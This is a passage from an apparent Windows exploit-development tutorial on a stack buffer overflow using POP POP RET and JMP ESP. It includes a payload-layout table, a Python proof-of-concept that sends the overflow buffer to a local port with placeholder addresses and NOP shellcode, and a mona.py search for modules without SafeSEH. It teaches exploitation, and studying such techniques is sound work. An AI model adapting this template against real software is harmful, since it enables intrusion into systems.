 We have 1052 A and 4 B. We use one C as a break, which gives us 7 NOPS. We also have 4 C and a fake shellcode that gives us 1000 NOPS. The goal is to jump over the first break, which is colored blue (C), and go straight to the second break, which is colored orange and light green (CCCC).We need to use ESP+8 = 0x0022ab58 purple color to do this.

Let's use WinDGB to figure out what we try to do, connect the process, and run your script.

![windows](/assets/img/headers/windows-exploit-dev-part-2/win3.png)

We see the EIP is overwite with BBBB but we need to overwrite with ESP + 8..... I will make a table to see how look this technique.

| BUFFER     | EIP            | Space 8 bytes (Nop)        | JMP ESP     | Shellcode                 |
|------------|----------------|----------------------------|-------------|---------------------------|
| A * 1052   | POP POP RET    | 90 90 90 90 90 90 90 90    | 0xaddress   | \xba\xd5\x31\x08\x38...  |

Example of POC code:
```python
import socket

target="127.0.0.1"
junk="A"*1052
pop="B"*4 	                # Address pop pop ret
junk1="\x90"*8 			# 8 bites space
jmp_esp="C"*4 			# jmp esp address
nop="\x90"*20 			# NOPS
shellcode ="\x90"*1000 		# Shellcode
payload=junk+pop+junk1+jmp_esp+nop+shellcode

try:

	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Don't Crash Me !"
```
Now we use Immunity Debbuger for search in dll from `pop pop ret` and `jmp esp` or `call esp`. Run as Administrator Immunity and attache the process(PID)! Use `mona.py` to found dll's without protection:
```sh
!mona nosafeseh
```
